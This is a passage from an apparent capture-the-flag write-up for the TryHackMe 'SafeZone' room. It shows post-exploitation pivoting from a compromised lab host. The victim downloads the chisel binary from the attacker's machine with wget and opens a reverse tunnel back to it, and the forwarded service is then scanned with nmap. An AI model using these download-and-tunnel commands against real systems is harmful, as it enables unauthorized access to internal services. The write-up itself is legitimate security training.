 ```
```

We can see there are 2 services running in localhost. **MySQL (Port 3306) and an unknown service (Port 8000).**

**Let's dig into that unknown service:**
```
files@safezone:~$ curl http://127.0.0.1:8000/
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

Hmm... Let's use **port forwarding** technique to view the contents of that service.

**To do so, I'll use `chisel`:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

files@safezone:~$ wget http://10.9.0.253/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

- Setup listening server:

```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server --port 4444 --reverse 
2022/12/30 03:00:55 server: Reverse tunnelling enabled
2022/12/30 03:00:55 server: Fingerprint 1Kly7Offpq09UJ6Kyj8LVCpDklgV4bpmsAm91PGU10U=
2022/12/30 03:00:55 server: Listening on http://0.0.0.0:4444
```

- Connect to the listening server:

```
files@safezone:~$ /tmp/chisel client 10.9.0.253:4444 R:8001:127.0.0.1:8000
2022/12/30 13:38:41 client: Connecting to ws://10.9.0.253:4444
2022/12/30 13:38:42 client: Connected (Latency 215.087614ms)
```

**We now can access to port 8000 localhost service via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230030905.png)

**Let's `nmap` scan this service:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# nmap -sT -T4 -sC -sV -p8001 127.0.0.1
[...]
PORT     STATE SERVICE VERSION
8001/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
